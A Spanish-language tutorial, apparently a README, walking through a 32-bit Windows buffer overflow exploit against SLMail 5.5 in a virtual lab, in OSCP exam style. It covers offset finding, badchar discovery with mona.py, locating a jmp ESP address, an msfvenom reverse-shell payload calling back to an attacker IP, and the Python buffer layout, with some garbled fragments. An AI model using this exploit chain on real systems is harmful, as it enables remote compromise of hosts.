# Buffer Overflow

Tutorial de buffer overflow en Windows de 32 bits con el programa SLMail 5.5. Se hace uso de maquinas virtuales, una máquina con Parrot OS (máquina atacante) y otra con Windows 7 (máquina víctima).

Nota: El tutorial toma como base el video [¿Cómo explotar el Buffer Overflow del OSCP con éxito?](https://www.youtube.com/watch?v=sdZ8aE7yxMk)

Con pattern_create se genera un patron de carácteres 

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 ```



En la máquina victima con Immunity Debugger (ejecutar como administrador) nos sincronizamos con SLMail, se pausará el programa darle al botón de play para que se reanude el flujo del programa



Ejecutar el script en la máquina de atacante. En Immunity Debugger se pausará automaticamente el flujo de programa, en el campo EIP se muestra un dirección la cual sirve para determinar el offset para controlar el EIP.

  

con se determina el offset



En este caso el offset es de 2607. 

Ahora se determina los badchars (carácteres que el programa no puede interpretar) con la utildad mona.py se facilita esta tarea. Para ello se copiar en C:/Progr

Con el comando ``` !mona config -set workingfolder C:\Users\Usuario\Desktop\%p ``` se crea un directorio de trabajo 



con ``` !mona bytearray ``` se generan dos archivo, uno de ellos llamado bytearray.txt, que contiene los carácteres imprimibles. Para transferir el archivo de una maquina otra, desde la maquina atacante usar un servidor samba y con la maquina victima en cmd con el copy 

Maquina atacante


Maquina victima

``` copy RutaDelArchivo \\IPmaquinaatacante\smbFolder\ ```





Ejecutar el script y desde Immunity Debugger en el EIP se tiene una dirección, se ejecuta 
``` !mona compare -f C:\Users\Users\Desktop\SLMail\bytearray.bin -a Dirreción ``` para obtener un badcha)




Con el comando ``` !mona bytearray -cpb "\x00\x0a ``` se genera de nuevo los archivos bytearray pero sin los badchars. Esto se  hace hasta que ya no aparezca ninguno

Una vez obtenidos los badchars ahora se crea un shell code que los omita

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.249.128 LPORT=443 -a x86 --platform windows -b "\x00\x0a\0xd" -e x86/shikata_ga_nai -f c
```




Para que se logre interpretar el shell code se debe dar un salto al ESP se busca la dirección a jmp ESP. Nasm_shell nos ayuda a obtener las direcciónes de instrucciones a bajo nivel en este caso la de jmp ESP.

```/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb```



Con !mona modules se muestran los módulos de SLMail, se busca alguno que que tenga Rebase, Safe, ASLR, NXCompat en "False". Se escoge SLMFC.dll



Se busca la dirección de jmp ESP en el módulo con

```
!mona find -s "\xff\xe4" -m SLMFC.DLL
```



Se comprueba que la dirreción apunte a jmp ESP



En el script de python se añade la dirección de jmp ESP pero al ser 32 bits se debe de estar en Little Endian. Para convertir a Little Endian se separa la dirección en pares y se inverte el orden ```5f4a358f ->  8f354a5f ```

Y finalmente se añade NOPs ```\x90``` al payload y se ejecuta el script para obtener una reverse shell

```
    offset = b"A"*2607
    eip = b"\x8f\x35\x4a\x5f" #0x5f4a358f
    buffer = offset + eip  + b"\x90"*16 + shell_code
```




